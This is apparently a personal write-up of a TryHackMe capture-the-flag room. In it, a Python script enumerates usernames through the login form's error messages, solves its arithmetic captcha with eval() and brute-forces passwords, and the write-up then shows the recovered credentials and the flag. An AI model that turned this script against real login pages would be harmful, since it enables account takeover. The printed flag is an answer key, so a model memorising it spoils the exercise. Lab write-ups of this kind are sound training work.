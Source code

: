 ----
Can you bypass the login form?
----

![222](https://tryhackme-images.s3.amazonaws.com/room-icons/4b631e191c14bc9d6b2be078d1adde76.png)
### Task 1  General information

 Download Task Files

![Securesolacoders](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e3943bd2445e65e56afb7a5/room-content/b5a647b9469643ad859ac93c27dd8e3d.png)

SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own rate limiter and modified the code slightly**.**

Before we start, download the required files by pressing the **Download Task Files** button.

Answer the questions below

I have downloaded the capture.zip file.

 Completed

### Task 2  Bypass the login form

 Start Machine

Please wait approximately 3-5 minutes for the application to start.  

You can find the web application at: **`http://MACHINE_IP`**

Answer the questions below

What is the value of flag.txt?

```
┌──(witty㉿kali)-[~/Downloads/capture]
└─$ unzip capture.zip 
Archive:  capture.zip
  inflating: passwords.txt           
  inflating: usernames.txt 

http://10.10.205.246/login

test:test

Error: The user 'test' does not exist 

using burp intruder (pitchfork) There's a captcha

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ cat login.py  

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ cat login2.py 
import requests, re

url = "http://10.10.205.246/login"

with open("usernames.txt", "rt") as fd:
	usernames = fd.read().splitlines()
	
with open("passwords.txt", "rt") as fd:
	passwords = fd.read().splitlines()
regex = re.compile(r"(\d+\s[+*/-]\s\d+)\s\=\s\?")
def send_post(username, password, captcha=None):
	data = {
		"username":username,
		"password":password,
	}
	if captcha:
		data.update({"captcha":captcha})
	response = requests.post(url=url, data=data)
	return response
def solve_captcha(response):
    captcha = re.findall(regex, response.text)[0]
    return eval(captcha)
for count in range(100):
	response = send_post("witty", "life")
	try:
		captcha = solve_captcha(response)
		print(f"Captcha synchronised! Next solution is: {captcha}")
		break
	except:
		pass
for username in usernames:
	response = send_post(username, "None", captcha)
	captcha = solve_captcha(response)
	if not "does not exist" in response.text:
		for password in passwords:
			response = send_post(username, password, captcha)
			if not "Error" in response.text:
				print(f"Success! Username:{username} Password:{password}")
				exit(0)
			else:
				captcha = solve_captcha(response)

┌──(witty㉿kali)-[~/Downloads/capture]
└─$ python3 login.py
Captcha synchronised! Next solution is: 191
Success! Username:natalie Password:sk8board

Flag.txt:
7df2eabce36f02ca8ed7f237f77ea416

```

![[Pasted image 20230621185435.png]]

Look at the error messages from the application when attempting to log in. Enumerate to discover the username (firstname). Then enumerate once more to discover the password.

*7df2eabce36f02ca8ed7f237f77ea416*
 

[[Valley]]













